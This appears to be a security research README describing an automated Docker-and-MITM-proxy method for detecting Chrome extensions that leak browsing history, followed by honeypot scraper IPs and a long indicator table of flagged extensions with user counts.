

# *Spying Chrome Extensions: 287 Extensions spying on 37M users*

## Summary

- We built an automated scanning pipeline that runs Chrome inside a Docker container, routes all traffic through a man‑in‑the‑middle (MITM) proxy, and watches for outbound requests that correlate with the length of the URLs we feed it.
- Using a leakage metric we flagged 287 Chrome extensions that exfiltrate browsing history.
- Those extensions collectively have \~37.4 M installations – roughly 1 % of the global Chrome user base.
- The actors behind the leaks span the spectrum: Similarweb, Curly Doggo, Offidocs, chinese actors, many smaller obscure data‑brokers, and a mysterious “Big Star Labs” that appears to be an extended arm of Similarweb.

Links:
- [this repository](https://github.com/qcontinuum1/spying-extensions)
- [report](https://github.com/qcontinuum1/spying-extensions/blob/main/report.pdf)
- [archived report](https://archive.org/details/report_202602)
- [web.archive.org](https://web.archive.org/web/20260207164030/https://github.com/qcontinuum1/spying-extensions)
- [archived public key](https://web.archive.org/web/20260207165708/https://github.com/qcontinuum1/spying-extensions/blob/main/qcontinuum.pub)

## Why?

The problem isn’t new. In 2017, M. Weissbacher et al. research on malicious browser extensions. In 2018, R. Heaton showed that the popular “Stylish” theme manager was silently sending browsing URLs to a remote server. Those past reports cought our eye and motivated us to dig into this issue.

Fast forward to 2025: Chome Store now hosts roughly 240 k extensions, many of them with hundreds of thousands of users. We knew that we needed a scalable, repeatable method to measure whether an extension was actually leaking data in the wild.

It was shown in the past that chrome extensions are used to exfiltrate user browser history that is then collected by data brokers such as Similarweb and Alexa. We try to prove in this report that Similarweb is very much still active and collects data. 

Why does it matter? There is a moral aspect to the whole issue. Imagine that you build your business model on data exfiltration via innocent looking extensions and using that data to sell them to big corporates. Well, that's how Similarweb is getting part of the data. That should remind us that whatever software you are using for free and it is not open sourced, you should assume you are the product. The second aspect is that it puts the users into danger and potentially this could be used for corporate exfiltration. Even if only browsed URLs are exfiltrated, they typically contain personal identifications, that way bad actors that would pay for the raw collected traffic can try to target individuals. 

## Automated scan

### The Source Code

We considered sharing the details of the setup, but we considered this will only enable attackers to adapt quicker to this method. For this reason we will not share the code nor the exact details of the setup.

We developed our internal research framework that was inspired by M. Weissbacher et al. work:

1. Docker with Chromium based browser.
2. MITM proxy.
3. Synthetic browsing workloads (increasing consistent payload send to google.com, this request never left docker container).
4. Simple regression model to see if there is corelation between outbound traffic volume and the length of the URLs we request.



The idea was simple: if an extension is just reading the page title or injecting CSS, its network footprint should stay flat regardless of how long the URL we visit is. If the outbound traffic grows linearly with the URL length, we have a high probability that the extension is shipping the URL itself (or the entire HTTP request) to a remote server.

### Capturing & Correlating Traffic

`mitmdump` writes every request/response to a JSON file. After the run we parse the file and compute for each destination domain + endpoint:

- Total bytes sent - `bytes_out`.
- Sum of compressed URL lengths - `payload_size`.

The leakage ratio is defined as:

bytes_out = R * payload_size + b

If `R ≥ 1.0` we consider the endpoint definitely leaking (the payload size is at least as big as the URL). If `0.1 ≤ R < 1.0` we flag it as probable leakage and send it for manual review. We scanned the leakage in two stages first only 4 different payload sizes and if the condition `0.1 ≤ R < 1.0` was fullfilled we continued with additional differen 6 payload sizes. Considering o naverage 10 minute scan it took us 930 CPU days to perform the scan. For scans that would take 1 day per extension, different strategy would need to be considered. Perhaps only the extensions with higher user counts could be scanned for longer period of time. 

## The Honeypot

The exfiltrated data can be in some cases sold to data brokers such as Similarweb. Data brokers put together those data and can resell them further to consumers. M. Weissbacher et al. research showed that third parties are interested in scraping those data for unknown reasons, perhaps to monetize the information gathered. We set up our own honeypots and we supplied the extensions honey URLs. 


Five distinct IP ranges hit the honeypot repeatedly:
  - `54.92.107.92` – associated with **HashDit**.
  - `34.29.32.249` – associated with **Blocksi AI Web Filter**.
  - Kontera (multiple NAT’ed AWS IPs) - the biggest scraper.
    - `54.209.60.63`, `nat.aws.kontera.com`
    - `184.72.121.156`, `nat-service.aws.kontera.com`
    - `184.72.115.35`, `nat-service1.aws.kontera.com`
    - `54.175.74.27`, `nat-service3.aws.kontera.com`
    - `54.86.66.252`, `nat-service4.aws.kontera.com`

### IoCs

We should note that probably not all of the browser history leaking extensions have malicious intent. The following table provides list of leaking extensions that were tagged by the automated scan and aftewards the logs were manually inspected to remove false positives. Some of the extensions might be benign and may need collect browser history for functionallity such as "Avast Online Security & Privacy" for example. 

| Chrome Web Store URL                                                      | Extension name                                                           | User count |
|---------------------------------------------------------------------------|--------------------------------------------------------------------------|------------|
| https://chromewebstore.google.com/detail/gomekmidlodglbbmalcneegieacbdmki | Avast Online Security & Privacy                                          |    6000000 |
| https://chromewebstore.google.com/detail/lgblnfidahcdcjddiepkckcfdhpknnjh | Ad Blocker: Stands AdBlocker                                             |    3000000 |
| https://chromewebstore.google.com/detail/ofpnmcalabcbjgholdjcjblkibolbppb | Monica: ChatGPT AI Assistant \| DeepSeek, GPT-4o, Claude 3.5, o1 &More   |    3000000 |
| https://chromewebstore.google.com/detail/bkkbcggnhapdmkeljlodobbkopceiche | Pop up blocker for Chrome™ - Poper Blocker                               |    2000000 |
| https://chromewebstore.google.com/detail/fjnbnpbmkenffdnngjfgmeleoegfcffe | Stylish - Custom themes for any website                                  |    2000000 |
| https://chromewebstore.google.com/detail/akdgnmcogleenhbclghghlkkdndkjdjc | SEOquake                                                                 |    1000000 |
| https://chromewebstore.google.com/detail/eiimnmioipafcokbfikbljfdeojpcgbh | BlockSite Block Websites & Stay Focused                                  |    1000000 |
| https://chromewebstore.google.com/detail/hoklmmgfnpapgjgcpechhaamimifchmp | Similarweb - Website Traffic & SEO Checker                               |    1000000 |
| https://chromewebstore.google.com/detail/njgehaondchbmjmajphnhlojfnbfokng | Video Downloader PLUS                                                    |    1000000 |
| https://chromewebstore.google.com/detail/nllcnknpjnininklegdoijpljgdjkijc | Wordtune: AI Paraphrasing and Grammar Tool                               |    1000000 |
| https://chromewebstore.google.com/detail/bhmmomiinigofkjcapegjjndpbikblnp | WOT: Website Security & Safety Checker                                   |     800000 |
| https://chromewebstore.google.com/detail/edjkecefjhobekadlkdkopkggdefpgfp | Smarty                                                                   |     800000 |
| https://chromewebstore.google.com/detail/aefehdhdciieocakfobpaaolhipkcpgc | Simple Allow Copy                                                        |     700000 |
| https://chromewebstore.google.com/detail/gbdjcgalliefpinpmggefbloehmmknca | Ad block & Adblocker - No Ads extension                                  |     700000 |
| https://chromewebstore.google.com/detail/gjfpmkejnolcfklaaddjnckanhhgegla | Guardio Protection for Chrome                                            |     700000 |
| https://chromewebstore.google.com/detail/jlgkpaicikihijadgifklkbpdajbkhjo | CrxMouse: Mouse Gestures                                                 |     700000 |
| https://chromewebstore.google.com/detail/nbmoafcmbajniiapeidgficgifbfmjfo | AVG Online Security                                                      |     600000 |
| https://chromewebstore.google.com/detail/ojplmecpdpgccookcobabopnaifgidhf | Price History & Tracker, Spend Lens: Buyhatke                            |     600000 |
| https://chromewebstore.google.com/detail/emalgedpdlghbkikiaeocoblajamonoh | Karma \| Online shopping, but better                                     |     500000 |
| https://chromewebstore.google.com/detail/jajikjbellknnfcomfjjinfjokihcfoi | Adblock for YouTube & Chrome - All Block                                 |     500000 |
| https://chromewebstore.google.com/detail/bmhcbmnbenmcecpmpepghooflbehcack | Liner: ChatGPT AI Copilot for Web&YouTube&PDF                            |     400000 |
| https://chromewebstore.google.com/detail/dgjbaljgolmlcmmklmmeafecikidmjpi | Adblock Ad Blocker Pro                                                   |     400000 |
| https://chromewebstore.google.com/detail/fofjcndophjadilglgimelemjkjblgpf | ZoomInfo Chrome Extension                                                |     400000 |
| https://chromewebstore.google.com/detail/ihmgiclibbndffejedjimfjmfoabpcke | Mate Translate – translator, dictionary                                  |     400000 |
| https://chromewebstore.google.com/detail/jaembmdeobjibglbnnefpalabeohjpnj | Audio editor online Audacity                                             |     400000 |
| https://chromewebstore.google.com/detail/pnedebpjhiaidlbbhmogocmffpdolnek | CouponBirds - SmartCoupon Coupon Finder                                  |     400000 |
| https://chromewebstore.google.com/detail/fonalplhodhnenmokepaijoemaednpjm | Directo - Travel Deals - Save on Fees                                    |     300000 |
| https://chromewebstore.google.com/detail/kiodaajmphnkcajieajajinghpejdjai | Popup Blocker Pro                                                        |     300000 |
| https://chromewebstore.google.com/detail/lnhnebkkgjmlgomfkkmkoaefbknopmja | ApkOnline APK manager for Android emulator                               |     300000 |
| https://chromewebstore.google.com/detail/mnoiedledcncagkonmmhbenokojeciib | Tesla Search                                                             |     300000 |
| https://chromewebstore.google.com/detail/necpbmbhhdiplmfhmjicabdeighkndkn | Similar Sites - Discover Related Websites                                |     300000 |
| https://chromewebstore.google.com/detail/nfadicbbecgbdbgbibgflooojfbolpgk | Pie Shopping: Cash Back and Coupons                                      |     300000 |
| https://chromewebstore.google.com/detail/nfmlkliedggdodlbgghmmchhgckjoaml | Spotify Ad Blocker - Blockify                                            |     300000 |
| https://chromewebstore.google.com/detail/oeicpkgdngoghobnbjngekclpcmpgpij | EverBee - Find Best Selling Products on Etsy                             |     300000 |
| https://chromewebstore.google.com/detail/eagiakjmjnblliacokhcalebgnhellfi | Clean Master: the best Chrome Cache Cleaner                              |     200000 |
| https://chromewebstore.google.com/detail/gcfcpohokifjldeandkfjoboemihipmb | Undetectable AdBlocker                                                   |     200000 |
| https://chromewebstore.google.com/detail/lngfncacljheahfpahadgipefkbagpdl | UltraWide Video                                                          |     200000 |
| https://chromewebstore.google.com/detail/omebobahbkampglebglkoagddjnjbhle | Gimp online - image editor and paint tool                                |     200000 |
| https://chromewebstore.google.com/detail/aadbahhifnekkkcbapdfandpimaoacmj | AliPrice Search by image for China import                                |     100000 |
| https://chromewebstore.google.com/detail/bchkdkhfodkkpohjhabdgfhpgjkkgfhg | AnswerAI - Homework AI Tutor & Study Helper                              |     100000 |
| https://chromewebstore.google.com/detail/bincmiainjofjnhchmcalkanjebghoen | AG Translate                                                             |     100000 |
| https://chromewebstore.google.com/detail/caejcfciegnnnepdhaopdogngbmojodl | Kimi Explorer                                                            |     100000 |
| https://chromewebstore.google.com/detail/condlopdddofpgcdjfnoepbdkcgckmgb | Translator                                                               |     100000 |
| https://chromewebstore.google.com/detail/dakkielolpafjbgnjnakddabmbbkcioe | AegisWeb3                                                                |     100000 |
| https://chromewebstore.google.com/detail/dghkhbmpagbapkadlehcicngkldfieln | Google Meet Extension                                                    |     100000 |
| https://chromewebstore.google.com/detail/eanofdhdfbcalhflpbdipkjjkoimeeod | Rewards Search Automator                                                 |     100000 |
| https://chromewebstore.google.com/detail/hajphibbdloomfdkeoejchiikjggnaif | QuestionAI Homework Powered AI Assistant                                 |     100000 |
| https://chromewebstore.google.com/detail/hilpchhlogijamlemmggobblmfcdkomg | Buscapé                                                                  |     100000 |
| https://chromewebstore.google.com/detail/janmadmcipjiaoenfkimihamjfipgmee | Shein Coupon Finder                                                      |     100000 |
| https://chromewebstore.google.com/detail/kphldkppgfpjadpabfkghmjbhpcmgpdg | 1688 Purchasing Assistant Plugin                                         |     100000 |
| https://chromewebstore.google.com/detail/lopnbnfpjmgpbppclhclehhgafnifija | Google Translate - Side Panel                                            |     100000 |
| https://chromewebstore.google.com/detail/odfonlkabodgbolnmmkdijkaeggofoop | Clearly Reader - Your AI Reading Assistant                               |     100000 |
| https://chromewebstore.google.com/detail/ohgkmilcibaoempgifldidkidnbkbeii | Movie maker MovieStudio video editor                                     |     100000 |
| https://chromewebstore.google.com/detail/aedglnfjjccpifohekdeoogffomjcikm | Solvely.ai - AI Homework Helper                                          |      90000 |
| https://chromewebstore.google.com/detail/dfmpaemifkgbnlgcccccnfjjkeiikeie | Audio editor & music editor AudioStudio                                  |      90000 |
| https://chromewebstore.google.com/detail/ecpkhbhhpfjkkcedaejmpaabpdgcaegc | 1688 AIBUY: Official Global Sourcing AI Agent                            |      80000 |
| https://chromewebstore.google.com/detail/mhkejggchhilmabpicojddgaahkkgoln | FranceVerif - Sécurité en ligne                                          |      80000 |
| https://chromewebstore.google.com/detail/npcbllnmpghkdjeaocappkiedkiljhgk | Android emulator MyAndroid                                               |      80000 |
| https://chromewebstore.google.com/detail/dbjldigbjceebginhcnmjnigbocicokh | 1688 search by image                                                     |      70000 |
| https://chromewebstore.google.com/detail/aahodnigalncogkhfolddkmkklijeoap | Gauth - AI Homework & Study Helper                                       |      60000 |
| https://chromewebstore.google.com/detail/dnclkkkjlabdgfdjngdkaebpaahnohoo | Zoom                                                                     |      60000 |
| https://chromewebstore.google.com/detail/gefiaaeadjbmhjndnhedfccdjjlgjhho | Enhanced Image Viewer                                                    |      60000 |
| https://chromewebstore.google.com/detail/gfkpklgmocbcbdabfellcnikamdaeajd | SimplyCodes - Verified Coupons + Cash Rewards                            |      60000 |
| https://chromewebstore.google.com/detail/hegneaniplmfjcmohoclabblbahcbjoe | Video Ad Blocker Plus for YouTube™                                       |      60000 |
| https://chromewebstore.google.com/detail/iojpcjjdfhlcbgjnpngcmaojmlokmeii | Smart Adblocker                                                          |      60000 |
| https://chromewebstore.google.com/detail/kdfinbdncekfhibpbnkjedmdofkjghjj | Video editor OpenShot online                                             |      60000 |
| https://chromewebstore.google.com/detail/molcibnmfbjmmfbefjfcafdeabfniobi | Cici, your AI browser assistant.                                         |      60000 |
| https://chromewebstore.google.com/detail/pmaonbjcobmgkemldgcedmpbmmncpbgi | Ubuntu free online linux server                                          |      60000 |
| https://chromewebstore.google.com/detail/bcapjlfjbmaijdinncieppinamjgljog | Inkscape editor for draws and graphics                                   |      50000 |
| https://chromewebstore.google.com/detail/bdomjcpneblellajjhgfdlnmjfofflop | LibreOffice Editor                                                       |      50000 |
| https://chromewebstore.google.com/detail/cdbccfkcpkmimlajcjpodelocoeifjhp | OceanHero: Save Our Oceans with Every New Tab                            |      50000 |
| https://chromewebstore.google.com/detail/fcejkolobdcfbhhakbhajcflakmnhaff | Knowee AI (formerly StudyGPT) - Your Homework & Essay Helper             |      50000 |
| https://chromewebstore.google.com/detail/flfhkellafphdlcigippmenebkodkina | OpenOffice Writer online for Word documents                              |      50000 |
| https://chromewebstore.google.com/detail/ggokfoffgmgmkckgeclppfpgfmddbdjg | Adblock Pro for Youtube™                                                 |      50000 |
| https://chromewebstore.google.com/detail/jjjpjmbnbdjhbkclajpagjkefefnednl | Super PiP - Picture-in-Picture with playback controls and subtitles      |      50000 |
| https://chromewebstore.google.com/detail/neigoggljhfnodeneidndcflnclldnpm | שם זה זול יותר                                                           |      50000 |
| https://chromewebstore.google.com/detail/agleiimpggapjekcdhdjbmegjbbkleie | Ground News - Bias Checker                                               |      40000 |
| https://chromewebstore.google.com/detail/bpdjlkbbhlnjlggpbofheohnomnibmmm | Document Editor for doc & docx                                           |      40000 |
| https://chromewebstore.google.com/detail/dpjgafhldafgelgpilaghplfgecjojgp | Photo editor PhotoStudio for images                                      |      40000 |
| https://chromewebstore.google.com/detail/dpphkcfmnbkdpmgneljgdhfnccnhmfig | Relingo - Master vocabulary while browsing websites and watching YouTube |      40000 |
| https://chromewebstore.google.com/detail/eemjhliengnnmjmbdjagekdddmkhanna | ima知识库                                                                |      40000 |
| https://chromewebstore.google.com/detail/mffappoadhfalhjgmfaoecjbdjfdfhdj | PDF editor PDFOffice to edit and create PDF                              |      40000 |
| https://chromewebstore.google.com/detail/ponokiofkijoolhebggofhhibnafebna | Felo Subtitles: ChatGPT Live Translation                                 |      40000 |
| https://chromewebstore.google.com/detail/begnkfeikebdelojdklgfkbhbeboilne | Alibaba Search by image                                                  |      30000 |
| https://chromewebstore.google.com/detail/bolplfmefepdhhakjbdggjmocjdkjkgb | PriceTiger                                                               |      30000 |
| https://chromewebstore.google.com/detail/cakgpagboibckijdpobichompgagpmnl | PriceTaco                                                                |      30000 |
| https://chromewebstore.google.com/detail/fobklglmhojpeijoioelpdaicagiepbf | LINE購物省錢助理 - 邊購物邊幫你輕鬆省錢！                                |      30000 |
| https://chromewebstore.google.com/detail/gnmngcgmijhkamopfhmnkgpebgjbpbja | DocsWork Editor for documents DOC & DOCX                                 |      30000 |
| https://chromewebstore.google.com/detail/ifjafammaookpiajfbedmacfldaiamgg | BeeLine Reader                                                           |      30000 |
| https://chromewebstore.google.com/detail/lpaboeaccgehipchabmnialhaihbmhji | Video editor VideoStudio                                                 |      30000 |
| https://chromewebstore.google.com/detail/mjackmipnhegkhekpebhmnkhkaojdldn | BK Reviews                                                               |      30000 |
| https://chromewebstore.google.com/detail/pkhpcfoaocmmpmphhenoblggeinedlah | Dupe.com: Find similar products for less                                 |      30000 |
| https://chromewebstore.google.com/detail/aaiolimgbncdaldgbbjkidiijidchhjo | Shopper.com                                                              |      20000 |
| https://chromewebstore.google.com/detail/aclbkdnphcdelflmgjgmgbahlfngidma | Dropbox Dash for Business                                                |      20000 |
| https://chromewebstore.google.com/detail/dojcmakgodofecjmdnncjkbhmddlmnpf | CapCut screen recorder                                                   |      20000 |
| https://chromewebstore.google.com/detail/egfkhocobmgeafdbjbphhfdfbmlobgdc | 大学搜题酱插件                                                           |      20000 |
| https://chromewebstore.google.com/detail/ehoknmhmadiboejdbinglmbnlghnbldc | Phia: Best Price in One Click                                            |      20000 |
| https://chromewebstore.google.com/detail/fiffkcnehndkebmpinoknndjbhdpbkcn | OpenOffice Calc online for xls spreadsheets                              |      20000 |
| https://chromewebstore.google.com/detail/hgfgdlbnbccaphekmiblnlbocchmanpd | PPT slides editor                                                        |      20000 |
| https://chromewebstore.google.com/detail/hmpbiickdfmcdlcpjegamgnjjkaiackl | AliPrice Search by image for AE                                          |      20000 |
| https://chromewebstore.google.com/detail/hnbdgfongnkfgnbpamndfiiedhapfecn | 语雀浏览器插件                                                           |      20000 |
| https://chromewebstore.google.com/detail/imjfokfjjgpijjfgnodojafbkoonmmkh | 芒果店长                                                                 |      20000 |
| https://chromewebstore.google.com/detail/jlbpahgopcmomkgegpbmopfodolajhbl | ChatGPT for Chrome - GPT Search                                          |      20000 |
| https://chromewebstore.google.com/detail/lmbnfoinlgcmombooibkgiihldajgnmk | Smart Nexus                                                              |      20000 |
| https://chromewebstore.google.com/detail/moeiianjbcjnomgomanjhilnlmfafpbj | Alva – AI Crypto Analyst, Trading Assistant & Agents                     |      20000 |
| https://chromewebstore.google.com/detail/aiimlpjcnmhmbdlmkhloapmlookboonb | OnManzBien                                                               |      10000 |
| https://chromewebstore.google.com/detail/ailbhmoekhkkihagfmffpaahfpcjjiei | Apk Downloader manager for Android                                       |      10000 |
| https://chromewebstore.google.com/detail/bnbpceglddpnehbopmdjegpfinikcaoh | Gem                                                                      |      10000 |
| https://chromewebstore.google.com/detail/fbjdfhinnhahheghjajajniekpnghdfa | 淘宝购物助手极速版                                                       |      10000 |
| https://chromewebstore.google.com/detail/gadbpecoinogdkljjbjffmiijpebooce | ChatGPT Assistant - GPT Search                                           |      10000 |
| https://chromewebstore.google.com/detail/gghlgcihlfpfbibgaffggbmidpfejbbb | Alibaba search by image                                                  |      10000 |
| https://chromewebstore.google.com/detail/ghjakbehlhkjdiehaeffedomkakcenjo | Browse.live Web Safety                                                   |      10000 |
| https://chromewebstore.google.com/detail/hblfamjdifnhiioifbfamlnkjfenhfed | AI-Powered DealDazzle: Searching Alternatives                            |      10000 |
| https://chromewebstore.google.com/detail/hchpnbmmbepldbfdgbjfigifhobbjcel | HTML editor WebStudio for Webpages                                       |      10000 |
| https://chromewebstore.google.com/detail/ijfmjempkpegmlhcacclfckeimbfgabp | Powerlead - Find Any B2B Contact Info                                    |      10000 |
| https://chromewebstore.google.com/detail/ijnodnmgpgmgaajhagolfiemmmamfcgb | UltraBlock - Privacy Protection & Adblock                                |      10000 |
| https://chromewebstore.google.com/detail/kbhaffhbhcfmogkkbfanilniagcefnhi | Jarvis AI: ChatGPT Bot Agent \| GPT-4o, Claude 3.5, Gemini 1.5, o1 &More |      10000 |
| https://chromewebstore.google.com/detail/kfkcgdiimmaafjbljhbjejocjignnajn | CharityTree                                                              |      10000 |
| https://chromewebstore.google.com/detail/kmmpkhpajpecmpdmmbpjmkmcmfdahkcj | Price.com: Save with Cash Back & Coupons                                 |      10000 |
| https://chromewebstore.google.com/detail/nckcnmaeicmholjaolkfcodfpblenkfp | XlsWork XLS editor for spreadsheets                                      |      10000 |
| https://chromewebstore.google.com/detail/njodldkbolbomneajeffdhedmnnplhpe | Coin Search - your daily rewards tool                                    |      10000 |
| https://chromewebstore.google.com/detail/ocjlckkmllgdmmpiobopeblldmmhjpjk | tool4seller - Amazon Product Research                                    |      10000 |
| https://chromewebstore.google.com/detail/bedebpfmdganddijhfbbaabedpmlokdk | Pinduoduo Search by Image                                                |       9000 |
| https://chromewebstore.google.com/detail/dfphncdgnondpmbfimfciniiakegcmmj | Blexb - Alexa Rank Alternative                                           |       9000 |
| https://chromewebstore.google.com/detail/gfjgjekaeebjccpnaeeeleeadfiledpm | Joom Pulse – Extensão para Google Chrome                                 |       9000 |
| https://chromewebstore.google.com/detail/glmfkanjkeedalikadkjlmijemmiknce | Presentation editor PPTWork for PPT slides                               |       9000 |
| https://chromewebstore.google.com/detail/nmcpliniiebkbdehpgicgfcidgkpepep | Auto Clicker - AutoFill [BETA]                                           |       9000 |
| https://chromewebstore.google.com/detail/ehplfgnopmpflglfpldjdodaogebfgpe | Laika AI - All in One DefAI Crypto AI Copilot                            |       8000 |
| https://chromewebstore.google.com/detail/epljmdbeelhhkllonphikmilmofkfffb | AI Resume Builder - Supawork AI                                          |       8000 |
| https://chromewebstore.google.com/detail/fghbfikeodjkbajmokiekipabfckcpgc | Free B2B Contact Info by AroundDeal                                      |       8000 |
| https://chromewebstore.google.com/detail/gmfaoihlkhopieoibopcponemocgbloj | SaveDay - AI Bookmark Manager                                            |       8000 |
| https://chromewebstore.google.com/detail/jcbjcocinigpbgfpnhlpagidbmlngnnn | Adblock for Browser                                                      |       8000 |
| https://chromewebstore.google.com/detail/banepeeclciljgfbpcjgnkfecnafnngg | Total Defense Traffic Light                                              |       7000 |
| https://chromewebstore.google.com/detail/cpmbdnkbpaabapidllalnfopojfimbno | Top Best Extension                                                       |       7000 |
| https://chromewebstore.google.com/detail/dgafcidlgmbcehokgdeghmfnbpbfhihh | WhenX: Mark Linkedin Profiles with notes                                 |       7000 |
| https://chromewebstore.google.com/detail/efbmlkodbdhahiljghapjcbofehkhpie | Aliexpress search by image                                               |       7000 |
| https://chromewebstore.google.com/detail/ppgndohgacfggdpbcdlgibdkdknimfmn | Linkedin Booster - Get more Likes on LinkedIn using Podawaa              |       7000 |
| https://chromewebstore.google.com/detail/dfaldmjkfklnkenddjpikfkdnkinheke | DingDoc Flash Save                                                       |       6000 |
| https://chromewebstore.google.com/detail/eciaojnpihmgkbacgpjnimcpkfeklgag | Ask AI Browser                                                           |       6000 |
| https://chromewebstore.google.com/detail/jflkdlbjgfiifajbjeockfjhbnhlakfd | wikifx                                                                   |       6000 |
| https://chromewebstore.google.com/detail/piemiihdhidiomfmilgencaeabplcgle | Web browser with anonymous access                                        |       6000 |
| https://chromewebstore.google.com/detail/edkmbojkflfanganifkkajmldejmhlec | GoCashBack: Deals, Rebates, Savings Extension                            |       5000 |
| https://chromewebstore.google.com/detail/eehllckaggechnoimeokmdgmljlmhkma | Pinterest Save - Pro                                                     |       5000 |
| https://chromewebstore.google.com/detail/fcnadghcijkmdhjdgiehgfpadojilfoa | Snip - Remove Web Elements                                               |       5000 |
| https://chromewebstore.google.com/detail/haikmmmjkcejaalkjbfobneapigfmldp | CMeter                                                                   |       5000 |
| https://chromewebstore.google.com/detail/jendpielmejekmmcccnnkgckhmjfpgep | Calligra online - office, graphics & email                               |       5000 |
| https://chromewebstore.google.com/detail/kkakhdcmdocechjnnfhihpjkancfmnbf | Помощник OZON                                                            |       5000 |
| https://chromewebstore.google.com/detail/lfmobnhbpkejigiaeliemikgciidndak | XPaint image editor and painter                                          |       5000 |
| https://chromewebstore.google.com/detail/lhjgfbdmhhdmjnnjeabjclblkecbldpd | Browse.live Ad Control                                                   |       5000 |
| https://chromewebstore.google.com/detail/mmfmakmndejojblgceefkpinojhiacfk | Brave web browser                                                        |       5000 |
| https://chromewebstore.google.com/detail/apenkcejfcelomfjdnmcokpihikjonmh | Safe Browser Parental Controls                                           |       4000 |
| https://chromewebstore.google.com/detail/gcehgkmfmfdhglfpcigmcfpbgblhldga | URIRANK - Alexa Traffic Rank                                             |       4000 |
| https://chromewebstore.google.com/detail/hpjloodfjfnoeekpikfdedoaiklofcgl | Podawaa - Get more Engagement on LinkedIn                                |       4000 |
| https://chromewebstore.google.com/detail/jhlofcbpianlpdpajgfphjnjahchjcei | Music Downloader Premium                                                 |       4000 |
| https://chromewebstore.google.com/detail/kgbmammdmhpmpjhlnelelcdmomlbidkd | Give Freely: You Save, We Give, Charities Win                            |       4000 |
| https://chromewebstore.google.com/detail/mjebgmffggocefpegddahkcnpllfmaid | Desktop for Tiktok online                                                |       4000 |
| https://chromewebstore.google.com/detail/cgmllohkcppmnkfpijpngkplpdbikhlf | Safe Surf                                                                |       3000 |
| https://chromewebstore.google.com/detail/fbdaigphodbigaofobmhdcfncjofaffp | LibreOffice Calc online                                                  |       3000 |
| https://chromewebstore.google.com/detail/fdcmomajekgiigcalflcbjbkemogcbaf | 纳米AI助手                                                               |       3000 |
| https://chromewebstore.google.com/detail/jkeolmadidncndcbnajhaojepbolajag | Lunabot - ChatGPT on any webpages                                        |       3000 |
| https://chromewebstore.google.com/detail/keagdhckgkgmlidkekabdngbknegkmoo | LibreOffice writer online                                                |       3000 |
| https://chromewebstore.google.com/detail/mcfleopinjndfkoklekjcjcgefgenlhp | Platstack: The Save button for the internet                              |       3000 |
| https://chromewebstore.google.com/detail/megchchilhekbbnfcklodmndefbhkbco | ShopSavvy                                                                |       3000 |
| https://chromewebstore.google.com/detail/pmfdkggpmpoebkjadpfpjpidllghlhgc | Incognito History                                                        |       3000 |
| https://chromewebstore.google.com/detail/ajgkdaibodfheidcpeifpdhaopjbpneo | Presto                                                                   |       2000 |
| https://chromewebstore.google.com/detail/bbnemobkpbncbpklloncaljndkagjfeh | Grips – E-commerce Site Analysis                                         |       2000 |
| https://chromewebstore.google.com/detail/gmdmkobghhnhmipbpplibkgekdfaacjp | Handbrake - video converter                                              |       2000 |
| https://chromewebstore.google.com/detail/hclkdpaahnpfenlibcmjnajjccpkhoak | H-E-B Credit for Chrome                                                  |       2000 |
| https://chromewebstore.google.com/detail/helpjbehgodflkpbifaolbjmkjffmeop | Crossbeam Copilot for Chrome                                             |       2000 |
| https://chromewebstore.google.com/detail/hopmhonnajbjjdkagglbfmffmdhocbmf | GoingMed                                                                 |       2000 |
| https://chromewebstore.google.com/detail/ncpaocdidimfckjmhafkpghjpedlcocc | The search engine to improve your productivity - GoSearch                |       2000 |
| https://chromewebstore.google.com/detail/nhhchicejoohhbnhjpaaoajhbbghhfgh | JustParty: watch Netflix with friends                                    |       2000 |
| https://chromewebstore.google.com/detail/njbgkalfmgkchikknmaimfjmfjpnbnpm | Style Cursor                                                             |       2000 |
| https://chromewebstore.google.com/detail/oaafdjbfibmpcgefpapknfjcnfdkkkkp | 界图-图片批量下载                                                        |       2000 |
| https://chromewebstore.google.com/detail/pefighpbbfkgkmfmpfgaopoahdmkakll | Cmd J – ChatGPT for Chrome                                               |       2000 |
| https://chromewebstore.google.com/detail/apeadjelacokohnkfclnhjlihklpclmp | EcoIndex.fr                                                              |       1000 |
| https://chromewebstore.google.com/detail/bbioibipebcopenpbhfceogfjknmjbpl | Dealfront Connect                                                        |       1000 |
| https://chromewebstore.google.com/detail/bdppohkefepkecfipofaabjkbfdahpdl | Economize! Mundo Conectado                                               |       1000 |
| https://chromewebstore.google.com/detail/bgiapcpcleefnmmkhaakokfbjnjjjeap | 百宝箱 AI 助手                                                           |       1000 |
| https://chromewebstore.google.com/detail/cebahajfamifimbgfnilhcdlgicajmln | COUPONS.DE - Nie wieder Gutscheine verpassen                             |       1000 |
| https://chromewebstore.google.com/detail/celjchjgliegnlalhjegfcaacphgdkij | Blocksi AI Web Filter                                                    |       1000 |
| https://chromewebstore.google.com/detail/coegijljhiejhdodjbnlglffjomlbgmi | HashDit                                                                  |       1000 |
| https://chromewebstore.google.com/detail/dbkabjeliahdblphpbgljbngijgknjfj | First Touch                                                              |       1000 |
| https://chromewebstore.google.com/detail/dpmjncncaehmgjeficalpmlfaenmbeca | Surf Security                                                            |       1000 |
| https://chromewebstore.google.com/detail/eegoohfobcaegoeoakafgiljckfiajhl | CryptoGuard - by ChainGPT AI                                             |       1000 |
| https://chromewebstore.google.com/detail/eeobggeikihkgiggaekfbceghlcpemfm | Caddi                                                                    |       1000 |
| https://chromewebstore.google.com/detail/egbpmfgojjbonjpajgjjfokblneogjpj | Manchester United Wallpapers                                             |       1000 |
| https://chromewebstore.google.com/detail/eimafbopadiepgmnmmjgmedblhlljlad | BuddyTixx - TTM Helper 4.3                                               |       1000 |
| https://chromewebstore.google.com/detail/fgedkelakhbadclolkemkcffklcomhhb | Cookie Decliner                                                          |       1000 |
